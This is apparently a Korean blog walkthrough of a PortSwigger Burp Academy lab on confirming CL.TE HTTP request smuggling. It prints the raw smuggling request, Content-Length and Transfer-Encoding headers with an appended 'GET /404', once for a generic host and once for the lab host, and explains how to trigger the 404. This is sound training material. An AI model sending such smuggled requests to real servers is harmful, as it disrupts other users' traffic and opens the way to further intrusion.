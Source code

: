 ```yaml
---
layout: post
title: "Burp Academy-HTTP Request Smuggling 관련 취약점: Confirming CL.TE vulnerabilities using differential responses"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, HTTP Request Smuggling]
toc: true
last_modified_at: 2024-01-09 09:00:00 +0900
---
```


# 개요
- HTTP Request Smuggling 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses
- 취약점 설명페이지1: https://portswigger.net/web-security/request-smuggling
- 취약점 설명페이지2: https://portswigger.net/web-security/request-smuggling/finding
- 난이도: PRACTITIONER (보통)

# Confirm 테크닉 개요
- Burp Academy 에서는 HTTP Request Smuggling을 탐지하는 단계를 세 단계로 나눠서 가르치고 있다. 
- Indentifying과 Confirming, Exploiting이 그 것이다. Indentifying은 식별, Confirming은 확신정도로 이해하면 되겠다. Exploiting은 취약점을 악용하는 단계다.
- Indentifying에서는 타임아웃이 발생하는가를 주로 보고, Confirming에서는 실제로 HTTP요청을 밀반입해서 밀반입한 요청에 대한 HTTP응답이 돌아오는지를 본다. (따라서 오리지널 요청과 밀반입용 요청은 각각 다른 HTTP응답코드가 돌아오는 요청이어야 한다.)
- 예를 들어, CL.TE Confirm용의 HTTP요청은 다음과 같이 생겼다. 

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

- 백엔드에서는 TE를 보므로 `GET /404` 부터는 별도 요청으로 인식해서 다음순서의 HTTP 요청에 대해서 404응답을 회신한다. 
- 404응답이 돌아오면 스머글링이 성공했다고 확신(Confirm)할 수 있다.
- 이 랩에서는 HTTP Request Smuggling 컨펌용 요청(CL.TE패턴)을 사용하는 것을 실습한다.

# 랩 개요
- 이 랩은 프론트 엔드 서버와 백엔드 서버로 구성되어 있다. 프론트 엔드서버는 chunked encoding(TE헤더)를 지원하지 않는다. 
- 랩을 풀려면 백엔드 서버에게 HTTP요청을 밀반입해서, `/` 요청을 보냈을 때 404응답이 돌아오도록 하면 된다. 

```
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server, so that a subsequent request for / (the web root) triggers a 404 Not Found response.
```

# 도전
1. Confirm 테크닉 개요에 있는 CL.TE Confirm용 페이로드를 그대로 사용해보자. 다음과 같이 된다. 

```http
POST / HTTP/1.1
Host: 0af10037042fd316812ed9c600230018.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

CL헤더의 값 49는 Foo: x 까지를 정확하게 포함한 값이다. 프론트엔드는 CL헤더를 보기 때문에 Foo: x까지를 하나의 요청으로 인식해서 백엔드로 보낸다. 백엔드는 TE헤더를 보므로 GET 부터는 다른 요청으로 인식한다. 

2. 요청을 보내본다. 동일한 요청을 두번 보내면 두번째부터는 404응답이 돌아오는 것을 볼 수 있다. 

![HTTP 요청 스머글링 시도](/images/burp-academy-hrs-4-1.png)

3. 웹 브라우저에서 페이지를 리로드하면 문제가 풀렸다는 메세지가 출력된다. 

![풀이 성공](/images/burp-academy-hrs-4-success.png)